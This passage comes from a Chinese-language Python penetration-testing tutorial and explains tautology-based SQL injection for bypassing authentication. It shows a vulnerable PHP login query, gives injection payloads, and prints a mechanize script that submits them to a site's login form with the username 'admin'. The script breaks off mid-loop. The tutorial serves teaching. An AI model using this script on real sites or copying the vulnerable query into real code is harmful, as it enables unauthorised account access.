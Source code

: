 ![Understanding the SQL injection attack by a Python script](graphics/8583OT_07_03.jpg)

通过 data_handler.py 显示 mohit.raj

前面的程序是针对 PHP 的。我们还可以为不同的 web 服务器语言（如 ASP.NET）制作程序。

现在，是时候执行基于重言式的 SQL 注入攻击了。基于重言式的 SQL 注入通常用于绕过用户身份验证。

例如，假设数据库包含用户名和密码。在这种情况下，web 应用程序编程代码如下所示：

```
$sql = "SELECT count(*) FROM cros where (User=".$uname." and Pass=".$pass.")";
```

`$uname`变量存储用户名，`$pass`变量存储密码。如果用户输入有效的用户名和密码，`count(*)`将包含一条记录。如果`count(*) > 0`，则用户可以访问其帐户。如果攻击者在用户名和密码字段中输入`1" or "1"="1`，则查询如下：

```
 $sql = "SELECT count(*) FROM cros where (User="1" or "1"="1." and Pass="1" or "1"="1")";.
```

`User`和`Pass`字段将保留`true`，而`count(*)`字段将自动变为`count(*)> 0`。

让我们编写`sql_form6.py`代码并逐行分析：

```
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "\t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

  elif(p+1 == len(pass_exp)):
```